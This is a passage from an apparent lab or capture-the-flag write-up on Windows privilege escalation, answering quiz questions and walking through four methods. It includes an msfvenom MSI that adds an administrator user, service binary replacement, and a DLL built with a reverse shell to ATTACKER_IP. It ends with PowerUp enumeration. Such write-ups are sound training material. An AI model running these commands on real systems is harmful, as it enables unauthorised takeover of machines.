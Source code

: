 <img width="780" height="300" alt="scheduled-tasks" src="https://github.com/user-attachments/assets/s6t7u8v9-w0x1-y2z3-a4b5-c6d7e8f9g0h1" />

Answer: _BackupTask_

**Q8. What is the name of the DLL that can be hijacked for privilege escalation?**

Investigating DLL hijacking opportunities by examining the service and its dependencies:

```cmd
procmon.exe
# Monitoring file system access for missing DLLs
```

The analysis revealed a missing DLL that the service attempts to load from a writable location.

Answer: _hijackme.dll_

**Privilege Escalation Methods Demonstrated**

**Method 1: Unattended Installation Credentials**
```cmd
# Found credentials in Unattend.xml
runas /user:Administrator cmd
# Enter the decoded password: Password123
```

**Method 2: AlwaysInstallElevated**
```cmd
# Creating malicious MSI package
msfvenom -p windows/adduser USER=hacker PASS=Hacker123! -f msi -o evil.msi
msiexec /quiet /qn /i evil.msi
```

**Method 3: Service Binary Hijacking**
```cmd
# Replacing the service binary with our payload
move "C:\Program Files\FileZilla Server\FileZilla Server.exe" "C:\Program Files\FileZilla Server\FileZilla Server.exe.bak"
copy payload.exe "C:\Program Files\FileZilla Server\FileZilla Server.exe"
sc start "FileZilla Server"
```

**Method 4: DLL Hijacking**
```cmd
# Creating malicious DLL
msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f dll -o hijackme.dll
copy hijackme.dll "C:\Program Files\Vulnerable App\"
# Restart the service to trigger DLL loading
```

**Advanced Enumeration Techniques**

**PowerShell Enumeration:**
```powershell
# PowerUp.ps1 - Comprehensive privilege escalation checker
Import-Module .\PowerUp.ps1
Invoke-AllChecks

# Check for unquoted service paths
Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

